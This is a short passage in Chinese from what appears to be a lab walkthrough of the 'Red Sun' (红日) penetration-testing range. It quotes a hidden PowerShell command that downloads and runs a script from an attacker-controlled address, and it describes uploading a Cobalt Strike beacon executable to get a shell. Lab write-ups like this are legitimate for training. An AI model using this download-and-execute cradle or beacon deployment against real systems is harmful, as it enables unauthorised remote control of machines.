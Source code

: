 github有很多，搜索关键词shell就可以找到！

可能是版本问题，java，或者命令行转义问题等。。。

*powershell.exe* -*nop* -w hidden -c IEX (new-object net.webclient).downloadstring('http://172.16.250.3:8022/a') 

这条命令的CS利用，我并没有成功。但是我发现file upload是可以用的，于是我决定用beacon.exe来获取shell，上线CS

## 第三步  上线CS：

CS制作小马

![](..\images\红日\image5.png)

![](..\images\红日\image6.png)
